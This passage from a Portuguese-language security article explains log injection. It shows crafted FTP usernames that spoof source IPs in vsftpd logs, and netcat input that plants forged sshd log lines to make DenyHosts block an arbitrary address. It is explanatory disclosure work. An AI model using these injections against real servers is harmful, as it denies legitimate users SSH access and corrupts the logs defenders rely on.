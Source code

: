 E um log FTP? Aqui, eu utilizei o vsftpd como um exemplo, mas isto se aplica a todas as aplicações. Dê uma olhada nos logs quando nós tentamos modificar o nome de usuário:  
`<br></br>root@slacker:~# ftp 192.168.3.4<br></br>220 Welcome to labs ossec candy FTP service.<br></br>Name (192.168.2.3:root): myuser<br></br>..<br></br>`  
`<br></br>root@slacker:~# ftp 192.168.3.4<br></br>220 Welcome to labs ossec candy FTP service.<br></br>Name (192.168.2.3:root): lala] FAIL LOGIN: Client “2.3.4.54?<br></br>..<br></br>`

Dando uma olhada nos logs:  
`<br></br>Mon Jun 2 21:05:30 2007 [pid 1448] [myuser] FAIL LOGIN: Client “192.168.3.1?<br></br>Mon Jun 2 21:06:02 2007 [pid 1452] [lala] FAIL LOGIN: Client “2.3.4.54? ] FAIL LOGIN: Client “192.168.3.1?<br></br>`

Todos nós conhecemos SQL Injection, a idéia aqui não é tão diferente. Nós estamos apenas enviando o nome de usuário de uma forma que engane uma ferramenta de análise de logs, fazendo com que a ferramenta pense que o IP de origem é outro completamente diferente do endereço real.

Outra coisa muito interessante que nós vamos utilizar um pouco mais à frente, é o modo como o SSH loga eventos de protocolos inválidos:  
`<br></br>root@slacker:~# nc 192.168.3.4 22<br></br>SSH-1.99-OpenSSH_4.2<br></br>hi me<br></br>Protocol mismatch.<br></br>`

Dando uma olhada nos logs:  
`<br></br>Jun 2 21:27:37 slacker sshd[1457]: Bad protocol version identification ‘hi me’ from 192.168.3.1<br></br>`

Você consegue encontrar a string fornecida pelo usuário no log acima? A questão é: como a sua ferramenta de análise de logs lida com estas alterações nos logs?

**3 – DoS remoto no DenyHosts**  
O [DenyHosts](http://denyhosts.sourceforge.net/) é uma ferramenta muito popular para a monitoração dos logs do SSH, com mais de 6 mil usuários, de acordo com o site oficial. Ele monitora os seus logs do SSH e automaticamente bloqueia o endereço IP de origem de uma conexão que produza muitas falhas de autenticação.

O DenyHosts sofria com algumas vulnerabilidades no passado, quando ele era vulnerável a um log injection muito simples (como os exemplos mostrados acima).

Entretanto, a sua última versão (2.6) ainda é vulnerável a log injection, porém de uma forma diferente que pode causar um DoS sério no SSH. Vamos explorá-lo.

Se você utilizar o netcat (como mostrado no exemplo da seção anterior) assim:  
`<br></br>dcid@enigma:~/Desktop$ nc 10.1.1.18 22<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>hi<br></br>Protocol mismatch.<br></br>`

Como será o log gerado pelo servidor?  
`<br></br>Apr 25 13:17:50 crazymom sshd[4150]: Bad protocol version identification ‘hi’ from 10.1.1.4<br></br>`

Sim, todas as vezes que você envia uma informação de protocolo inválido para o servidor, ele vai registrar o valor fornecido pelo usuário no log. Se tentarmos:  
`<br></br>dcid@enigma:~/Desktop$ nc 10.1.1.18 22<br></br>SSH-1.99-OpenSSH_3.9p1<br></br>User root from 10.2.3.5 not allowed because none of user’s groups are listed in AllowGroups<br></br>Protocol mismatch.<br></br>`

Como o server vai logar?  
`<br></br>Apr 25 13:19:32 crazymom sshd[4153]: Bad protocol version identification ‘User root from 10.2.3.5 not allowed because none of user’s groups are listed in AllowGroups’ from 10.1.1.4<br></br>`
